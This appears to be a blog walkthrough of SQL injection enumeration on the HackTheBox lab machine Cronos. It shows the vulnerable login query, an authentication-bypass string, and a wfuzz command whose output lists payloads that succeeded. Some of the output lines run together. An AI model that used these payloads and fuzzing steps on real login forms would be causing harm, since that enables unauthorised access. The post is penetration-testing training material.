 ```yaml
---
layout: single
title: User input field Enumeration for SQLi using BurpSuite and wfuzz. 
date : "2020-03-26"
---
```


This article shows how to enumerate login page for SQL injection using burpsuite and Wfuzz, and I am considering Cronos machine from HackTheBox retired machines for this example. same can be extented to check user input field on a post request.

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_login_page.png"|relative_url}})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 1. Cronos login page.</figcaption>
</figure>


From initial enumeration, we know its a linux server running apache and uses php, which leads us to suspect a mysql database server running in backend to support login page.

lets visualize SQL query which will be accepting our user input data. 

~~~sql
$sql = "SELECT id FROM users 
WHERE username = '".$myusername."' and password = '".$mypassword."'";
~~~

ideally to bypass authentication we need to pass a username which would change the execution flow. 
And in this example, it is very simple to achieve it by passing **admin' -- -** where we comment the query after username field.

But queries can be complex sometimes and may not be so easy to visualize like in this example, so to speed up the enumeration we can pass all the possible combinations to the username field and test for SQLi.

To achieve, I am using a work list from the [link](https://github.com/swisskyrepo PayloadsAllTheThings/tree/master/SQL%20Injection) and fuzz the user input field to find if the given field is vulnerable for the injection.

I have sent the request to burpsuite and passed it to burp intruder 

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 2. Burp Suite Intruder.</figcaption>
</figure>


Set payload marker to fuzz username parameter and it does not matter what password we enter. and under payloads tab I have copied the list I obtained from the [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder_payload.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 3. Burp Suite Intruder payload.</figcaption>
</figure>


and now we are set to start fuzzing the login page.

{% capture fig_img %}
![Foo]({{ "/images/SQLi/SQLi_burp_intruder_result.png" | relative_url }})
{% endcapture %}

<figure>
  {{ fig_img | markdownify | remove: "<p>" | remove: "</p>" }}
  <figcaption>Fig 4. Burp Suite Intruder results.</figcaption>
</figure>


Now we have multiple 302 (URL redirects) which indicates the fuzzing was successful. 

This process can be slow on burp communnity edition, so alternatively wfuzz can be used for the same, sample code snippet of same is shown below.

~~~console
root@kali:~/Desktop/htb/cronos# wfuzz -c -z file,/opt/SecLists/Fuzzing/SQLi/Generic-SQLi.txt --hc 200 -d "username=FUZZ&password=admin" http://admin.cronos.htb 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://admin.cronos.htb/
Total requests: 267

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000201:  C=302     98 L	     215 W	   2580 Ch	  "x' or 1=1 or 'x'='y"
000217:  C=200     98 L	     221 W	   2618 Ch	  "declare @s varchar(200) select @s = 0x77616974666F722064656C61792027303A303A31302700 exec(@s)000218:  C=200     98 L	     221 W	   2618 Ch	  "declare @q nvarchar (200) 0x730065006c00650063007400200040004000760065007200730069006f006e00 000216:  C=200     98 L	     221 W	   2618 Ch	  "declare @q nvarchar (200) select @q = 0x770061006900740066006F0072002000640065006C00610079002000228:  C=302     98 L	     215 W	   2580 Ch	  "' or 0=0 #"
000234:  C=302     98 L	     215 W	   2580 Ch	  "' or 1=1 or ''='"
000065:  C=302     98 L	     215 W	   2580 Ch	  "admin' or '"

Total time: 8.873858
Processed Requests: 267
Filtered Requests: 263
Requests/sec.: 30.08837

~~~
